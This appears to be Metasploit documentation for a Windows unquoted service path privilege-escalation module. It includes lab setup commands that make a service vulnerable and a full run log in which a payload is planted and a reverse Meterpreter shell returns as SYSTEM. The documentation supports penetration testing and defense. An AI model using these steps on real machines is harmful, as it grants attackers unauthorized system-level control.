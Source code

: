 ## Vulnerable Application

Commonly known as Trusted Service Path, or Unquoted Service path, this exploits a behavior of windows service.
When a service calls an executable, a full path is given.  If the full path contains a space,
Windows will attempt to execute a file up to the space, with `.exe` appended.
If the executable isn't found, it keeps going until the full path or the next space (and repeat).

@sumitvgithub had an excellent write-up on this
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

As is documented in that write-up, if the executable is C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

Windows will attempt to run the following, in order.

1.  C:\Program.exe
2.  C:\Program Files\A.exe
3.  C:\Program Files\A Subfolder\B.exe
4.  C:\Program Files\A Subfolder\B Subfolder\C.exe
5.  C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

To exploit this, we simply need to go in reverse order to see if we're able to write a payload to those locations.
In Win7+ the deeper folders are more likely to succeed based on default Windows permissions for users.

Then, a service restart is required.  Often a user won't be able to do this,
so the payload is left on disk as a reboot or service restart will trigger the payload to launch.

The service will fail to start as long as the payload remains on disk.  Manual cleanup of the payload
is required.

### Creating a Vulnerable Service

This is sourced from @sumitvgithub's write-up
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

With an administrator command prompt, execute the following:

```
sc create "Some Vulnerable Service" binpath= "C:\Program Files\A Subfolder\B Subfolder\C Sub folder\SomeExecutable.exe" Displayname= "Vuln Service DP" start= auto
mkdir "C:\Program Files\A Subfolder\B Subfolder\C Sub folder"
icacls "C:\Program Files\A Subfolder" /grant "BUILTIN\Users":W
```

If you want to allow the user to restart the service:
```
wmic useraccount get name,sid
sc sdset "Some Vulnerable Service" D:(A;;RPWP;;;place-sid-here)
```

This creates a vulnerable service, with `A Subfolder` being vulnerable to user writes.

## Verification Steps

1. Start msfconsole
2. Get a user shell
3. Do: `use exploits/windows/local/unquoted_service_path`
4. Do: `set session #`
5. Do: `run`
6. You should get an elevated shell.

## Options

## Scenarios

### Windows 10 21H2

```
msf6 exploit(windows/local/unquoted_service_path) > set session 1
session => 1
msf6 exploit(windows/local/unquoted_service_path) > set verbose true
verbose => true
msf6 exploit(windows/local/unquoted_service_path) > set lhost 192.168.159.128
lhost => 1.1.1.1
msf6 exploit(windows/local/unquoted_service_path) > set lport 9090
lport => 9090
msf6 exploit(windows/local/unquoted_service_path) > exploit

[*] Started reverse TCP handler on 192.168.159.128:9090 
[*] Finding a vulnerable service...
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[+] Found potentially vulnerable service: Vuln Service 1 - C:\Program Files\A Subfolder\B Subfolder\C Sub folder\SomeExecutable.exe (LocalSystem)
[*]   Enumerating vulnerable paths
[-]     C:\Program Files\A Subfolder\B Subfolder\ is not writable
[+]     C:\Program Files\A Subfolder\ is writable
[*]       Placing C:\Program Files\A Subfolder\B.exe for Vuln Service 1
[*]       Attempting to write 15872 bytes to C:\Program Files\A Subfolder\B.exe...
[+]       Successfully wrote payload
[*] [Vuln Service 1] Restarting service
[-] [Vuln Service 1] Restarting service failed: Could not open service. OpenServiceA error: FormatMessage failed to retrieve the error.
[-]       Unable to restart service. System reboot or an admin restarting the service is required. Payload left on disk!!!
[-]     C:\Program Files\ is not writable
[-]     C:\ is not writable
[+] Found potentially vulnerable service: Vuln Service 2 - C:\Program Files\D Subfolder\E Subfolder\F Sub folder\SomeExecutable.exe (LocalSystem)
[*]   Enumerating vulnerable paths
[-]     C:\Program Files\D Subfolder\E Subfolder\ is not writable
[+]     C:\Program Files\D Subfolder\ is writable
[*]       Placing C:\Program Files\D Subfolder\E.exe for Vuln Service 2
[*]       Attempting to write 15872 bytes to C:\Program Files\D Subfolder\E.exe...
[+]       Successfully wrote payload
[*] [Vuln Service 2] Restarting service
[*] Sending stage (175686 bytes) to 192.168.159.87
[+] [Vuln Service 2] Service started
[+] Deleted C:\Program Files\A Subfolder\B.exe
[+] Deleted C:\Program Files\D Subfolder\E.exe
[*] Meterpreter session 12 opened (192.168.159.128:9090 -> 192.168.159.87:57944) at 2023-01-05 09:46:38 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-81CEH16
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > 
```

